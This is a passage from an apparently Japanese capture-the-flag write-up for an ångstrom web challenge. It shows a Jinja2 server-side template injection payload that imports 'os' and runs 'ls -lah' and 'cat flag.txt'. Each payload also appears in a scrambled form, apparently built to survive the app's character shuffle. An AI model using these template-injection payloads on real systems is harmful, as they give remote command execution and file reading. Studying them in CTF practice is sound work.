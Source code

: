 ```
{​{request.application.__globals__.__builtins__.__import__('os').popen('ls -lah').read()}}
```
になるように、以下を入力。
```
iispb)t{​{paus(_iol(qsl)n_.ehtr_tl(c_-irn'tooe)_.a}peb}_lm.sip.a_ad_.'poge_' u's_l.la_r_on
```

<img src="./img/angstrom/winds5.png">

同じディレクトリ内に`flag.txt`があることがわかったので、中身を表示する。
```
{​{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```
になるように、以下を入力。
```
_ir'i)i{​{cnua.isot tn__taopt)le_l(__.artos'uo)rep}me.}.psqbl(.a_xd'pf_ibn.'taallgg_pe.c(__sto_
```
